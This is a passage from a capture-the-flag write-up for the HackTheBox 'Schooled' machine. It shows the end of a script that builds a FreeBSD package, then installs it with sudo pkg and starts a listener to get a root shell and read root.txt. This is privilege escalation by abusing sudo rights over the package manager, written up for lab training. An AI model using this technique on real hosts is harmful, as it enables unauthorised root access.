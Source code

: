     prefix: /
    EOF
    echo "deps: {" >> ${STAGEDIR}/+MANIFEST
    pkg query "  %n: { version: \"%v\", origin: %o }" portlint >> ${STAGEDIR}/+MANIFEST
    pkg query "  %n: { version: \"%v\", origin: %o }" poudriere >> ${STAGEDIR}/+MANIFEST
    echo "}" >> ${STAGEDIR}/+MANIFEST
    mkdir -p ${STAGEDIR}/usr/local/etc
    echo "# hello world" > ${STAGEDIR}/usr/local/etc/my.conf
    echo "/usr/local/etc/my.conf" > ${STAGEDIR}/plist
    pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -p ${STAGEDIR}/plist -o .
    ```
- Save the script and make it an executable: `chmod +x script.sh`
- Execute the script and note to see a package made named: `mypackage-1.0_5.txz`
- Run : `sudo /usr/sbin/pkg install --no-repo-update mypackage-1.0_5.txz` (`--no-repo-update` to stop it from checking an online source) and start a listener.

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled15.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled16.png)
- Grab `root.txt` from the root home directory.

--------------------------------------------------------------


